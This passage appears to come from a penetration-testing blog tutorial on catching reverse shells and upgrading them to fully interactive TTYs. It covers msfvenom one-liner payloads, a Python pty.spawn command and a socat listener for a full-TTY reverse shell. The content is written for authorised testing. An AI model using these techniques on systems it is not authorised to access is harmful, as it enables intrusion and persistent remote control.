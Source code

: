 Pentest Monkey has a great [cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) outlining a few different methods, but my favorite technique is to use Metasploit’s `msfvenom` to generate the one-liner commands for me.

Metasploit has several payloads under “cmd/unix” that can be used to generate one-liner bind or reverse shells:

[![msfvenom payloads](https://blog.ropnop.com/images/2017/07/msfvenom_payloads.png)](https://blog.ropnop.com/images/2017/07/msfvenom_payloads.png)

Any of these payloads can be used with `msfvenom` to spit out the raw command needed (specifying LHOST, LPORT or RPORT). For example, here’s a netcat command not requiring the `-e` flag:

[![Netcat shell](https://blog.ropnop.com/images/2017/07/netcat_shell_cmd.png)](https://blog.ropnop.com/images/2017/07/netcat_shell_cmd.png)

And here’s a Perl oneliner in case `netcat` isn’t installed:

[![Perl shell](https://blog.ropnop.com/images/2017/07/perl_shell_cmd.png)](https://blog.ropnop.com/images/2017/07/perl_shell_cmd.png)

These can all be caught by using netcat and listening on the port specified (4444).

# Method 1: Python pty module

One of my go-to commands for a long time after catching a dumb shell was to use Python to spawn a pty. The [pty module](https://docs.python.org/2/library/pty.html) let’s you spawn a psuedo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

|                 |                                                                  |
| --------------- | ---------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>python -c 'import pty; pty.spawn("/bin/bash")'<br>``` |

This will let you run `su` for example (in addition to giving you a nicer prompt)

[![Python PTY](https://blog.ropnop.com/images/2017/07/python_pty.png)](https://blog.ropnop.com/images/2017/07/python_pty.png)

Unfortunately, this doesn’t get around some of the other issues outlined above. SIGINT (Ctrl-C) will still close Netcat, and there’s no tab-completion or history. But it’s a quick and dirty workaround that has helped me numerous times.

# Method 2: Using socat

[socat](http://www.dest-unreach.org/socat/doc/socat.html) is like netcat on steroids and is a very powerfull networking swiss-army knife. Socat can be used to pass full TTY’s over TCP connections.

If `socat` is installed on the victim server, you can launch a reverse shell with it. You _must_ catch the connection with `socat` as well to get the full functions.

The following commands will yield a fully interactive TTY reverse shell:

**On Kali (listen)**:

|                 |                                                               |
| --------------- | ------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>socat file:`tty`,raw,echo=0 tcp-listen:4444<br>``` |
